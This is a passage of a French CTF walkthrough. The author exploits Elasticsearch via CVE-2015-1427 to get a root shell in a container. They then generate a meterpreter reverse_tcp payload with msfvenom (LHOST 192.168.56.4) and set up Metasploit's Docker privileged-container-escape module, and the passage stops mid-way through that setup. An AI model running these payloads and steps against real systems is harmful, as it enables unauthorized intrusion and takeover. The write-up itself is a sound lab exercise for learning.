 At least you tried
------------------

En revanche en testant [un vieil exploit](https://www.exploit-db.com/exploits/36337) en Python on est vite fixé sur ce qu'on peut faire :  

```plain
$ python 36337.py 127.0.0.1

▓█████  ██▓    ▄▄▄        ██████ ▄▄▄█████▓ ██▓ ▄████▄    ██████  ██░ ██ ▓█████  ██▓     ██▓    
▓█   ▀ ▓██▒   ▒████▄    ▒██    ▒ ▓  ██▒ ▓▒▓██▒▒██▀ ▀█  ▒██    ▒ ▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒    
▒███   ▒██░   ▒██  ▀█▄  ░ ▓██▄   ▒ ▓██░ ▒░▒██▒▒▓█    ▄ ░ ▓██▄   ▒██▀▀██░▒███   ▒██░    ▒██░    
▒▓█  ▄ ▒██░   ░██▄▄▄▄██   ▒   ██▒░ ▓██▓ ░ ░██░▒▓▓▄ ▄██▒  ▒   ██▒░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░    
░▒████▒░██████▒▓█   ▓██▒▒██████▒▒  ▒██▒ ░ ░██░▒ ▓███▀ ░▒██████▒▒░▓█▒░██▓░▒████▒░██████▒░██████▒
░░ ▒░ ░░ ▒░▓  ░▒▒   ▓▒█░▒ ▒▓▒ ▒ ░  ▒ ░░   ░▓  ░ ░▒ ▒  ░▒ ▒▓▒ ▒ ░ ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
 ░ ░  ░░ ░ ▒  ░ ▒   ▒▒ ░░ ░▒  ░ ░    ░     ▒ ░  ░  ▒   ░ ░▒  ░ ░ ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
   ░     ░ ░    ░   ▒   ░  ░  ░    ░       ▒ ░░        ░  ░  ░   ░  ░░ ░   ░     ░ ░     ░ ░   
   ░  ░    ░  ░     ░  ░      ░            ░  ░ ░            ░   ░  ░  ░   ░  ░    ░  ░    ░  ░
                                              ░                                                
 Exploit for ElasticSearch , CVE-2015-1427   Version: 20150309.1
{*} Spawning Shell on target... Do note, its only semi-interactive... Use it to drop a better payload or something
~$ id
uid=0(root) gid=0(root) groups=0(root)
```

R.I.P. ElasticSearch.  

On est root, que espérer de plus ? Un accès en dehors du container bien sûr !  

Ah! Le binaire Docker n'est pas présent sur la machine et j'ai trop la flemme d'installer une Debian 8, installer Docker, noter les librairies requises, uploader ça etc...  

On va quitter notre *ReverseSSH* et profiter des fonctionnalités de Metasploit.  

D'abord générer la backdoor :  

```plain
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.4 LPORT=4444 -f elf -o /tmp/rev_met
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: /tmp/rev_met
```

Qu'on uploade et exécute sur la victime. Il faut avoir préalablement lancé le handler dans Metasploit, étape que j'ai oublié de copier ici mais qui peut se voir par exemple dans [le CTF Bobby]({% link _posts/2014-03-28-Solution-du-CTF-Bobby-1-de-VulnHub.md %}).  

Une fois la session Metasploit récupérée on la met en fond avec la commande *bg* (ou *background*) et on va chercher le module d'escalade de privilège adapté et lui fournir les options nécessaires (l'ID de la session, le payload, etc) :  

```plain
msf6 exploit(linux/local/docker_privileged_container_escape) > show options

Module options (exploit/linux/local/docker_privileged_container_escape):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on

Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
```